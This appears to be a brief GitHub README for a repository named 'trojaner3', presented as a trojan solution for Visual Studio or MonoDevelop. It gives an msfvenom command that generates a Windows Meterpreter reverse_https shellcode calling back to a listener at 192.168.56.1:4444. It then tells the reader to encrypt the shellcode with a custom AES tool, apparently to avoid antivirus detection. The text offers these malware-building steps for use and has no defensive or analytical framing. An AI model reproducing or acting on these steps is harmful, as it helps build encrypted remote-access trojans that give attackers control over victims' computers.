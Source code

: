 # trojaner3
trojan solutionfile for monodevelop or visual studio

watch my video on youtube 

to generate shellcode use:

msfvenom -p windows/x64/meterpreter/reverse_https lhost=192.168.56.1 lport=4444 -f csharp

and encrypt it with aesencryptor2.exe(you must build aesencryptor2.cs)
